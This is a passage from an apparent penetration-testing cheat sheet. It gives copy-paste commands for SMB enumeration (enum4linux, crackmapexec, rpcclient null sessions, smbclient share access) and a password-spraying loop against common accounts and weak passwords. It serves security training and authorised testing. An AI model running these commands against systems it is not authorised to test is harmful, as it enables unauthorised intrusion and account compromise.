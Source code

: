 ### Phase 2: Deep SMB Enumeration

**Step 1: Comprehensive Tool-Based Enumeration**
```bash
# enum4linux - complete enumeration
enum4linux -a $IP
enum4linux -U $IP  # Users only
enum4linux -S $IP  # Shares only
enum4linux -G $IP  # Groups only

# CrackMapExec enumeration
crackmapexec smb $IP
crackmapexec smb $IP --shares
crackmapexec smb $IP --users
crackmapexec smb $IP --groups
```

**Step 2: RPC Enumeration (Advanced)**
```bash
# RPC null session enumeration
rpcclient -U "" -N $IP
```

**RPC Commands to Execute (copy-paste sequence):**
```
srvinfo
enumdomusers
enumdomgroups
queryuser 500
queryuser 501
queryuser 1000
querygroupmem 512
querygroupmem 513
netshareenumall
netsharegetinfo sharename
lsaquery
lsaenumprivs
```

**Step 3: Share Content Discovery**
```bash
# Connect to discovered shares
smbclient //$IP/sharename -N
smbclient //$IP/sharename -U ""
smbclient //$IP/sharename -U guest

# Mount shares for easier navigation
mkdir /mnt/smb_share
mount -t cifs //$IP/sharename /mnt/smb_share -o username=,password=
```

### Phase 3: SMB Credential Attacks

**Step 1: Password Spraying**
```bash
# Create user list from enumeration
echo -e "administrator\nadmin\nroot\nuser\ntest\nguest\nservice\nsql\noperator\nmanager" > users.txt

# Password spray with common passwords
passwords=("password" "admin" "Password123!" "password123" "123456" "admin123" "")
for pass in "${passwords[@]}"; do
    echo "Testing password: $pass"
    crackmapexec smb $IP -u users.txt -p "$pass" --continue-on-success
done

# Alternative with hydra
```